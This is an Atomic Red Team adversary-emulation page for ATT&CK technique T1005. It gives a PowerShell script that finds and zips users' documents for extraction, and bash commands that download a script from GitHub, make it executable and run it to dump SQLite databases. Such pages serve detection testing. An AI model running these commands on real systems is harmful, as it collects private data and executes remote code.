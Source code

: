 ```yaml
---
tags: [T1005, atomic_test]
filename: "[[T1005|T1005 - Data from Local System]]"
---
```


# T1005 - Data from Local System
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1005)
<blockquote>Adversaries may search local system sources, such as file systems and configuration files or local databases, to find files of interest and sensitive data prior to Exfiltration.

Adversaries may do this using a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), such as [cmd](https://attack.mitre.org/software/S0106) as well as a [Network Device CLI](https://attack.mitre.org/techniques/T1059/008), which have functionality to interact with the file system to gather information.(Citation: show_run_config_cmd_cisco) Adversaries may also use [Automated Collection](https://attack.mitre.org/techniques/T1119) on the local system.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)](#atomic-test-1---search-files-of-interest-and-save-them-to-a-single-zip-file-windows)

- [Atomic Test #2 - Find and dump sqlite databases (Linux)](#atomic-test-2---find-and-dump-sqlite-databases-linux)


<br/>

## Atomic Test #1 - Search files of interest and save them to a single zip file (Windows)
This test searches for files of certain extensions and saves them to a single zip file prior to extraction.

**Supported Platforms:** Windows


**auto_generated_guid:** d3d9af44-b8ad-4375-8b0a-4bff4b7e419c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| starting_directory | Path to starting directory for the search | Path | C:&#92;Users|
| output_zip_folder_path | Path to directory for saving the generated zip file | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1005|
| file_extensions | List of file extensions to be searched and zipped, separated by comma and space | string | .doc, .docx, .txt|


#### Attack Commands: Run with `powershell`! 


```powershell
$startingDirectory = "#{starting_directory}"
$outputZip = "#{output_zip_folder_path}"
$fileExtensionsString = "#{file_extensions}" 
$fileExtensions = $fileExtensionsString -split ", "

New-Item -Type Directory $outputZip -ErrorAction Ignore -Force | Out-Null

Function Search-Files {
  param (
    [string]$directory
  )
  $files = Get-ChildItem -Path $directory -File -Recurse | Where-Object {
    $fileExtensions -contains $_.Extension.ToLower()
  }
  return $files
}

$foundFiles = Search-Files -directory $startingDirectory
if ($foundFiles.Count -gt 0) {
  $foundFilePaths = $foundFiles.FullName
  Compress-Archive -Path $foundFilePaths -DestinationPath "$outputZip\data.zip"

  Write-Host "Zip file created: $outputZip\data.zip"
  } else {
      Write-Host "No files found with the specified extensions."
  }
```

#### Cleanup Commands:
```powershell
Remove-Item -Path  $outputZip\data.zip -Force
```





<br/>
<br/>

## Atomic Test #2 - Find and dump sqlite databases (Linux)
An adversary may know/assume that the user of a system uses sqlite databases which contain interest and sensitive data. In this test we download two databases and a sqlite dump script, then run a find command to find & dump the database content.

**Supported Platforms:** Linux


**auto_generated_guid:** 00cbb875-7ae4-4cf1-b638-e543fd825300





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_url | url of remote payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1005/src|


#### Attack Commands: Run with `bash`! 


```bash
cd $HOME
curl -O #{remote_url}/art
curl -O #{remote_url}/gta.db
curl -O #{remote_url}/sqlite_dump.sh
chmod +x sqlite_dump.sh
find . ! -executable -exec bash -c 'if [[ "$(head -c 15 {} | strings)" == "SQLite format 3" ]]; then echo "{}"; ./sqlite_dump.sh {}; fi' \;
```

#### Cleanup Commands:
```bash
rm -f $HOME/.art
rm -f $HOME/gta.db
rm -f $HOME/sqlite_dump.sh
```



#### Dependencies:  Run with `bash`!
##### Description: Check if running on a Debian based machine.
##### Check Prereq Commands:
```bash
if [ -x "$(command -v sqlite3)" ]; then echo "sqlite3 is installed"; else echo "sqlite3 is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
if [ -x "$(command -v strings)" ]; then echo "strings is installed"; else echo "strings is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then apt update && apt install -y binutils curl sqlite3; fi
if grep -iq "rhel\|fedora\|centos" /usr/lib/os-release; then yum update -y && yum install -y binutils curl sqlite-devel; fi
```




<br/>
